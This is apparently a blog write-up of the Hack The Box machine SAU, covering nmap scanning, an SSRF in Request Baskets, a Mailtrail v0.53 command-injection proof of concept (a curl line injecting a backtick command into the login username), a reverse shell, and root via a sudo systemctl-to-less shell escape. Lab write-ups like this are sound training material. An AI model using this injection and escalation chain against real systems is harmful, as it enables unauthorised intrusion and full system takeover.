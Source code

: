 ```yaml
---
layout: post
author: H4-L0
---
```


# HTB-SAU
![image](/images/Pasted image 20230806120245.png)

**Link:** [Hack The Box - SAU](https://app.hackthebox.com/machines/551)

## 1. Enumeration
We began with a standard enumeration procedure.

### 1.1 Nmap Scanning
```shell
$ nmap -sV -p- sau
Starting Nmap 7.92 (https://nmap.org) at 2023-08-06 06:03 EDT
Nmap scan report for sau (10.10.11.224)
Host is up (0.035s latency).
rDNS record for 10.10.11.224: sau.htb
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
```

Ports discovered:
- **22**: Open SSH service
- **80**: Unknown service (blocked)
- **8338**: Unknown service (blocked)
- **55555**: Unknown service

![image](/images/Pasted image 20230712085417.png)
![image](/images/Pasted image 20230712085438.png)
![image](/images/Pasted image 20230712085523.png)
### 1.2 Basket SSRF Exploitation

According to a [Proof of Concept (PoC) for Basket](https://notes.sjtu.edu.cn/s/MUUhEymt7), the given version of Basket has an SSRF vulnerability, particularly in the following APIs:
1. `/api/baskets/{name}`
2. `/baskets/{name}`

We utilized Burp Suite to craft an exploit targeting the endpoint `/api/baskets/7test`.

![image](/images/Pasted image 20230712091945.png)

Upon forwarding the URL to `http://127.0.0.1:8338`, we were able to identify the service running on port `8338`. Access to the service requires requesting the created basket through the URL:

```
http://sau.htb:55555/7test
```

![image](/images/Pasted image 20230712091911.png)
![image](/images/Pasted image 20230712091924.png)

### 1.3 Mailtrail RCE Exploitation

Our exploration unveiled that *mailtrail (v0.53)* is being used. A search yielded an existing [PoC for a Mailtrail RCE exploit](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/).

Executing the following PoC, we achieved code execution:

```PoC
curl 'http://hostname:8338/login' --data 'username=;`id > /tmp/bbq`'
```

For establishing a reverse shell, we employed the following payload (ensure URL encoding):

![image](/images/Pasted image 20230712102502.png)

After initiating a listener, we successfully gained a shell.

![image](/images/Pasted image 20230712102435.png)
![image](/images/Pasted image 20230712102858.png)

A review of the home directory led us to the first flag.

## 2. Privilege Escalation

Executing the `sudo -l` command displayed the following:
```shell
puma@sau:/home$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

The output reveals that the user `puma` has the privilege to view the status of the mailtrail service as the root. Since the output is extensive and utilizes `less` for more manageable reading, we leveraged GTFObins to escape `less` by executing `!sh`. This approach afforded us a root shell.

![image](/images/Pasted image 20230716220903.png)

This method allowed us to obtain the final flag.

**[H4-L0]** 